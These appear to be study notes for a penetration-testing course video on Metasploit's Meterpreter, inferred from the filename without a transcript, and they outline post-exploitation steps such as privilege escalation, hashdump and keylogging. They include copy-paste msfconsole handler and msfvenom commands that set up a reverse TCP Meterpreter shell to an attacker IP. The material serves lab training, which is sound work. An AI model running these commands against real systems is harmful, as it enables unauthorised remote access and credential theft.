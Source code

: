 ## What the video covers (Introduction / big picture)
Note: No transcript was provided. The following is a conservative, practice-oriented summary inferred from the filename “01 - Meterpreter Fundamentals.mp4” in the “03-PostExploitationFundamentals” folder.

This video introduces Meterpreter, the in-memory post-exploitation agent used by Metasploit. It covers:
- What Meterpreter is and why it’s used (encrypted, in-memory, flexible, modular).
- How to obtain and manage a Meterpreter session in msfconsole.
- Core Meterpreter commands for host and network enumeration, file operations, process management, and privilege escalation.
- Session stability (migrating to stable processes) and safe interaction with OS shells.
- Using post modules from a Meterpreter session.
- Practical tips for eJPT-style labs (Windows/Linux targets).

## Flow (ordered)
1. Start msfconsole and prepare a handler for a Meterpreter payload.
2. Obtain a session (via exploit or payload execution).
3. List and interact with sessions; background and reattach as needed.
4. Baseline enumeration with Meterpreter (system, user, network).
5. Stabilize access (identify processes and migrate).
6. Privilege escalation attempts (getsystem, token-related actions).
7. File and credential operations (search, download, upload, hashdump).
8. Optional live interaction (shell, keylogger, screenshots).
9. Run relevant post modules.
10. Clean up and session management.

## Tools highlighted
- Metasploit Framework (msfconsole)
- Meterpreter payloads (windows/linux, x86/x64, staged/stageless)
- msfvenom (optional, generate payloads)
- Target OS shells (cmd.exe, /bin/sh) via meterpreter’s shell
- Post modules (post/windows/*, post/multi/*)

## Typical command walkthrough (detailed, copy-paste friendly)

Starter: multi/handler for a reverse TCP Meterpreter (Windows x64 example)
```
msfconsole

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_ATTACKER_IP>
set LPORT 4444
set ExitOnSession false
exploit -j
```

Optional: generate a payload with msfvenom (deliver via your preferred vector)
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_ATTACKER_IP> LPORT=4444 -f exe -o meter.exe
```
